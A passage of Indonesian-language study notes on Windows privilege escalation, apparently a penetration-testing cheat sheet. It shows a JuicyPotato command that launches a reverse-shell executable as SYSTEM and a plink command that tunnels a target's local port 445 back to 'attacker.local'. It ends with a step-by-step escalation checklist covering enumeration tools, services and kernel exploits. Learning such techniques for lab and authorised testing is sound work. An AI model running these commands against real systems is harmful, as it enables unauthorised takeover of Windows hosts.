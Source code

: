 ```

```
.\JuicyPotato.exe -l 1337 -p C:\PrivEsc\reverse.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
```

## Port Fowarding
Terkadang ada exploit yang mudah ditemukan namun program yang ingin kita exploit itu berjalan di local system (hanya bisa diakses local). Dalam hal ini kita perlu melakukan **port forwarding**. 

Dalam kasus ini kita perlu mem-forward port pada attacker machine ke internal port yang ada di windows

kita bisa menggunakan tool `plink.exe`
```
.\plink.exe root@attacker.local -R 445:127.0.0.1:445

```
Perintah diatas berfungsi untuk port forwarding dari 445 attacker machine ke port 445 target machine

## getsystem (Named pipes & token duplication)

## Priv Esc Strategy
1. Cek user kita saat ini dengan perintah `whoami` dan juga groups `net user <username>`
2. Jalankan winpeas dengan argument `fast` , `searchfast`, dan `cmd`
3. Jalankan tool `seatbelt.exe` dan script lainnya diatas
4. Jika script/exploit kita gagal dan bingung mau ngapain lagi, coba baca manual command di link berikut. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
5. Deep Dive, jangan menyerah, baca semua hasil dari enumeration
6. Jika winpeas atau tools lainnya menemukan sesuatu, jangan lupa dicatat
7. Buat checklist untuk priv esc
8. Lihat file di direktori umum seperi `Desktop`, `Documents`, `C:\`, `C:\Users`, `C:\Program Files` dan lain-lain
9. Jika menemukan file yang menarik, cari informasinya lebih lanjut
10. Coba sesuatu yang tidak sulit seperti registry,exploit,services dan lain-lain
11. Lihat process yang dijalankan oleh admin, lihat versinya dan cari exploitnya
12. Cek internal port, mungkin ada sesuatu yang menarik, kita bisa forward portnya  menggunakan `plink.exe` agar bisa diakses dari attacker machine
13. Jika masih belum bisa nemu priv esc ke admin, coba baca lagi hasil enumeration dan coba pahami lagi mungkin ada yang menarik, cek nama yang mungkin tidak familiar di windows, jika masih belum bisa juga, coba kernel exploits
14. Don't panic